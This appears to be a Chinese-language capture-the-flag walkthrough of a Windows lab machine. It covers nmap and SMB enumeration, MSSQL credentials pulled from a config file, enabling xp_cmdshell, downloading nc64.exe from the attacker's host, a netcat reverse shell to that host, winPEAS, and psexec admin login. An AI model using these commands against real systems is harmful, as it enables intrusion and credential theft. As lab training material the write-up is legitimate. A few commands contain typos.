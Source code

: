 ### 一、操作流程

1. 使用`nmap`工具扫描主机
> nmap -sC -sV 10.129.37.148
```shell
Nmap scan report for 10.129.37.148
Host is up (0.59s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
```

2. 登录smb查找敏感信息

> smbclient -N -L 10.129.37.148  #查看共享目录列表
> smbclient -N  10.129.37.148\\backups #进入共享目录
>  从smb服务器里面获取文件`prod.dtsConfig`,
```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
```
> 获得mssql的用户（ARCHETYPE\sql_svc）和密码（M3g4c0rp123）：


3. Impacket工具的使用

- 安装

```shell
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install .
# OR:
sudo python3 setup.py install
# In case you are missing some modules:
pip3 install -r requirements.txt
```

- 连接数据库
> python3 mssqlclient.py ARCHETYPE\sql_svc@10.129.37.148 -windows-auth  


- 开启命令行执行权限

```shell
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell
first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```

> 至此，可以直接使用cmd指令

4. 反弹shell
- 本地启动临时web服务：`python3 -m http.server 6000`
-  上传工具
> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.88:6000/nc64.exe -outfile nc64.exe"

-  本地启动监听:`sudo nc -lvnp 443`
-  反弹shell
> EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads;.\nc64.exe -e cmd.exe 10.10.16.88 443"

5. 权限提升
- 上传执行文件`winPEASx64.exe`
> wget http://10.10.16.88:6000/winPEASx64.exe -outfile winPEASx64.exe

- 执行文件`winPEASx64.exe`
> .\winPEASx641.exe

- 打开文件获取密码
> C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt


6. 主机登录psexec.py
>  ython3 psexec.py administrator@10.129.37.148 #登录后获取flag


### 知识点

1. mssql数据库配置指令sp_configure
   - sp_configure：更改配置项
   - RECONFIGURE：展示配置项

> EXEC sp_configure 'show advanced option', '1'; #允许展示高级配置选项，使用sp_configure即可展示配置项目
> EXEC sp_configure 'xp_cmdshell', 1; # 允许执行系统命令

2. xp_cmdshell命令行启动
3. 使用nc64.exe和winPEASx64.exe
4. Impacket工具的使用
5. nc工具
   - 监听端口(只连接)：`nc -l -p 端口`
    > sudo nc -l -p 443
   - 监听端口(持续)：`nc -L -p 端口`
   - 远程连接：`nc -nvv [ip] [PORT]`
winpeas